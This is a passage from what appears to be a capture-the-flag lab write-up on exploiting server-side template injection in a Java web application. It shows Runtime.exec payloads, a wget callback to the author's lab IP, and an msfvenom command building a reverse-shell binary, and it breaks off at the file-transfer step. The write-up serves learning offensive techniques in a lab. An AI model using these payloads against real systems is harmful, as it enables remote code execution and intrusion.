     -   It works &amp; I can read the `/etc/passwd` file
    -   {{< figure src="/ox-hugo/2025-01-03-172858_.png" >}}


#### Verifying RCE VIA SSTI: {#verifying-rce-via-ssti}

-   I the below commands.
    ```java
    *{T(java.lang.Runtime).getRuntime().exec("whoami")}
    *{T(java.lang.Runtime).getRuntime().exec("/bin/bash -c whoami")}
    ```

    -   I get this response:
        -   {{< figure src="/ox-hugo/2025-01-03-173948_.png" >}}
        -   +Note+: This is the same for the most of the commands I try. This indicates the command is running but we are not being served the output.

-   **Making a request to my host**:
    -   To verify my suspicions I spin up a python webserver:
        -   `python -m http.server 9000`
        -   I then have the application reach out to the webserver to make a wget request.
            ```java
              *{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://10.10.14.89:9000/POC")}
            ```
        -   Just as I thought it makes a request to my host.
            -   {{< figure src="/ox-hugo/2025-01-03-174832_.png" >}}
    -   +Note+: Now that I know the host is processing my commands and can make an outbound connection I can do the following:
        -   Create a malicious binary.
        -   Download it to the host.
        -   Make the binary executable.
        -   Run it &amp; catch a reverse shell.
    -   +Another Note+: If you're wondering "why didn't you just try a reverse shell" I did, but a standard bash shell or nc shell would not connect.


### Getting A Reverse Shell VIA SSTI: {#getting-a-reverse-shell-via-ssti}


#### Creating A Malicious `.elf` binary: {#creating-a-malicious-dot-elf-binary}

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.89 LPORT=4242 -f elf > rev.elf
```

-   {{< figure src="/ox-hugo/2025-01-03-175837_.png" >}}


#### Transferring The Malicious binary To The Host: {#transferring-the-malicious-binary-to-the-host}

-   I spin up my python web server again.
    -   `python -m http.server 9000`
